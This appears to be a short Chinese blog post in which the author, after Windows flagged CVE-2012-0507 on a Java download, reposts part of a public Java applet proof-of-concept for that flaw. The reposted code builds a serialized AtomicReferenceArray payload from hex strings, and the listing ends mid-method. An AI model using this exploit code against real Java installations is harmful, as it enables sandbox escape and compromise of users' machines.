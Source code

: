 ```yaml
---
title: CVE 2012 0507 Java
key: 2022-08-29
tags: CVE-2012-0507 Java
---
```


公司的电脑升级 OpenJDK 8, 所以从 RedHet 官网下载了一个最新的版本, 结果被 Windows 扫描到有 CVE-2012-0507, 还因此禁用了我的网络连接. 那么什么是 CVE-2012-0507 漏洞呢?

以下是转载的内容.



这里就是 java 的 cve 2012 0507 的 poc 所在了，大部分网上流传的基本上都基于这里，而且大家要注意这个poc的攻击模块并没有在其中写出来，所以直接运行是没有结果的。

## 0x01

[CVE-2012-0507 (Java)](https://github.com/wchen-r7/metasploit-framework/blob/791ebdb679d53f6363cf88a54db57722719cd62a/external/source/exploits/CVE-2012-0507/Exploit.java)

```java
package a;

import java.applet.Applet;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.concurrent.atomic.AtomicReferenceArray;
import a.*;

// Referenced classes of package a:
//     Help

public class Exploit extends Applet
{

 public Exploit()
 {
 }

 public static byte[] StringToBytes(String s)
 {
  byte abyte0[] = new byte[s.length() / 2];
  for(int i = 0; i < s.length(); i += 2)
   abyte0[i / 2] = (byte)((Character.digit(s.charAt(i), 16) << 4) + Character.digit(s.charAt(i + 1), 16));

  return abyte0;
 }

 public void init()
 {
  try
  {
   String as[] = {
    "ACED0005757200135B4C6A6176612E6C616E672E4F62", "6A6563743B90CE589F1073296C020000787000000002", "757200095B4C612E48656C703BFE2C941188B6E5FF02", "000078700000000170737200306A6176612E7574696C", "2E636F6E63757272656E742E61746F6D69632E41746F", "6D69635265666572656E63654172726179A9D2DEA1BE", "65600C0200015B000561727261797400135B4C6A6176", "612F6C616E672F4F626A6563743B787071007E0003" 
   };
   StringBuilder stringbuilder = new StringBuilder();
   for(int i = 0; i < as.length; i++)
    stringbuilder.append(as[i]);

```